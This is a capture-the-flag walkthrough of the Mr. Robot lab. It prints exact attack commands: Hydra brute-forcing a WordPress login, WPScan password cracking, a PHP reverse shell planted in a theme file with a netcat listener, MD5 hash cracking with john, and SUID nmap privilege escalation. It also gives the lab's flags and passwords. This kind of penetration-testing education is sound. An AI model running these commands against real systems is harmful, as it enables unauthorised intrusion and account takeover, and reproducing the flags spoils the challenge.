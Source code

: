# MR. ROBOT CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, Burp Suite, Hydra, WPScan, netcat, john

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**gobuster**: tool to brute force URIs (dirs, files, dns subdomains)

```
gobuster [command]
```

dir mode
-u url
-w  wordlist

**Burp Suite**: tool to test web application security

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

http-post-form "PAGE:PARAMETER=^HYDRA_VALUE^:FAILURE STRING"
-t multi threading

**WPScan**: word press enumeration tool

```
wpscan [options]
```

-U username
-P password
--url

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.6.40.234

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap, gobuster

```
nmap -sC -sV -oN nmap.txt 10.6.40.234
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>
443 (http)

```
gobuster dir -u "http://10.6.40.234" -w /usr/share/dirb/wordlists/common.txt
```

Status code 200 means success
![gobuster](./imgs/gobuster.png)

Go to http://10.10.3.80/robots.txt<br>
robots.txt is a common file found on websites that gives a list of files that are off limits for bots (web crawlers)

FILES: key-1-of-3.txt, fsocity.dic

FLAG 1: 073403c8a58a1f80d943455fb30724b9

--------------------------------------------------------------------

### 2. FIND FLAG 2

**TOOLS**: Burp Suite, Hydra, WPScan, netcat, john

Use Burp Suite to intercept a failed login

![Burp Suite](./imgs/burp_suite.png)

INTERCEPTED POST REQUEST: log=name&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.176.17%2Fwp-admin%2F&testcookie=1

We can now feed this into hydra to brute force the login

First use fsocity.dic to find username with static password
```
hydra -L fsocity.dic -p test 10.6.40.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
"/wp-login.php" is the page<br>
"log=^USER^&pwd=^PWD^" are the parameters<br>
"Invalid username" is what a failure looks like<br>
-t 30 is the# of threads

![Hydra 1](./imgs/hydra1.png)

Invalid User<br>
![Admin](./imgs/incorrect_user.png)

User Exists<br>
![Elliot](./imgs/correct_user.png)

Use that username to brute force password using fsocity.dic again

```
wpscan -U "Elliot" -P fsocity.dic --url 10.6.40.234
```

![WPScan](./imgs/wpscan.png)

USER: Elliot
PASSWORD: ER28-0652

Login then go to editor and paste in PHP Reverse Shell code (payload.php) from pentest-monkey. I edited the 404.php page

![Editor](./imgs/editor.png)

```
nc -nlvp 4444
```

Then go http://10.10.63.226/wp-content/themes/twentyfifteen/404.php to to trigger shell

User doesn't have access to flag.

Found password hash:<br>
robot:c3fcd3d76192e4007dfb496cca67e13b

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5 --fork=8
```

PASSWORD: abcdefghijklmnopqrstuvwxyz


Need to run this in php reverse shell to get interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Get access to robot user

```
su robot
```

FLAG 2: 822c73956184f694993bede3eb39f959

--------------------------------------------------------------------

### 3. FIND FLAG 3

To find binaries for privilege escalation
```
find / -user root -perm /4000 2>/dev/null
```

Target is /usr/local/bin/nmap<br>
Found here https://gtfobins.github.io/gtfobins/nmap/

```
/usr/local/bin/nmap --interactive
!sh
```

FLAG 3: 04787ddef27c3dee1ee161b21670b4e4
